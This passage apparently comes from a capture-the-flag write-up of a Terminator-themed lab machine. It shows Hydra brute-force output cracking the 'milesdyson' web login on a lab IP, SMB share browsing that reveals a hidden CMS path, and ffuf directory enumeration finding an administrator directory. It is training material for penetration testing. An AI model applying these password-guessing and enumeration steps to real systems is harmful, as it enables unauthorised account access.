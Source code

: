 ```bash
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator16" - 8 of 31 [child 7] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator143" - 9 of 31 [child 8] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator13" - 10 of 31 [child 9] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator123!@#" - 11 of 31 [child 10] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator1056" - 12 of 31 [child 11] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator101" - 13 of 31 [child 12] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator10" - 14 of 31 [child 13] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator02" - 15 of 31 [child 14] (0/0)
[ATTEMPT] target 10.10.36.101 - login "milesdyson" - pass "terminator00" - 16 of 31 [child 15] (0/0)
[80][http-post-form] host: 10.10.36.101   login: milesdyson   password: cyborg007haloterminator
[STATUS] attack finished for 10.10.36.101 (valid pair found)
```
We have a hit!

<p align="center">
  <img class="image" width="auto" height="auto" src="https://imgur.com/Eixg1Ic.png">
</p>

The account has 3 emails in the inbox.

One contains an email with a new password for smb.

Log back into SMB with the `milesdyson` share. This contains some random files. One sticks out called `important.txt`

```bash
cat important.txt
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```
Number 3 is a good life tip!

Let's see what is in this new directory

<p align="center">
  <img class="image" width="auto" height="auto" src="https://imgur.com/SWTe6rq.png">
</p>

ffuf reveals a new hidden directory

```
index.html              [Status: 200, Size: 418, Words: 45, Lines: 16]
administrator           [Status: 301, Size: 337, Words: 20, Lines: 10]
```
<p align="center">
  <img class="image" width="auto" height="auto" src="https://imgur.com/qJ4ftJP.png">
</p>
